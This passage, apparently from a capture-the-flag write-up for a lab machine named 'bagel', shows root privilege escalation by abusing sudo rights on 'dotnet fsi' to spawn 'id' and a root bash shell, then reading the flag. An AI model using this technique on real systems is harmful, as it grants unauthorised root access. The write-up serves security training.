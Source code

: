 ```
  dev-certs         Create and manage development certificates.
  fsi               Start F# Interactive / execute F# scripts.
  sql-cache         SQL Server cache command-line tools.
  user-secrets      Manage development user secrets.
  watch             Start a file watcher that runs a command when files change.

Run 'dotnet [command] --help' for more information on a command.

```

There’s a lot possible here, and several ways to exploit this.

#### F# Execution

In scrolling through these, `fsi` jumps out as an interesting command - “Start F# Interactive / execute F# script”.

A simple F# script to get a shell is `System.Diagnostics.Process.Start("id").WaitForExit();` This will run whatever shell command it’s given:

```

[developer@bagel ~]$ sudo dotnet fsi

Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
Copyright (c) Microsoft Corporation. All Rights Reserved.

For help type #help;;

> System.Diagnostics.Process.Start("id").WaitForExit();;     
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
val it: unit = ()

```

For whatever reason, F# needs `;;` to end this line.

I can do the same thing and invoke `bash`:

```

> System.Diagnostics.Process.Start("bash").WaitForExit();;
[root@bagel developer]#

```

From there, grab the flag:

```

[root@bagel developer]# cd /root/
[root@bagel ~]# cat root.txt
7ca14c4d************************

```
